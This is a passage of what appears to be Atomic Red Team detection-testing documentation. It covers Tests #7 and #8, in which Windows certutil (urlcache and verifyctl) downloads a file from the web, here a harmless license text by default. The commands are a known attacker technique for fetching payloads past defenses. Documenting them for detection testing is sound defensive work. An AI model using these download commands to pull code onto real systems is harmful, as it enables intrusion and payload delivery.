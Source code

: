 

<br/>
<br/>

## Atomic Test #7 - certutil download (urlcache)
Use certutil -urlcache argument to download a file from the web. Note - /urlcache also works!

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_file | URL of file to copy | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt|
| local_path | Local path to place file | Path | Atomic-license.txt|

#### Run it with `command_prompt`! ```
cmd /c certutil -urlcache -split -f #{remote_file} #{local_path}
```



<br/>
<br/>

## Atomic Test #8 - certutil download (verifyctl)
Use certutil -verifyctl argument to download a file from the web. Note - /verifyctl also works!

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_file | URL of file to copy | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt|
| local_path | Local path to place file | Path | Atomic-license.txt|

#### Run it with `powershell`! ```
$datePath = "certutil-$(Get-Date -format yyyy_MM_dd_HH_mm)"
New-Item -Path $datePath -ItemType Directory
Set-Location $datePath
certutil -verifyctl -split -f #{remote_file}
Get-ChildItem | Where-Object {$_.Name -notlike "*.txt"} | Foreach-Object { Move-Item $_.Name -Destination #{local_path} }
```



<br/>
<br/>
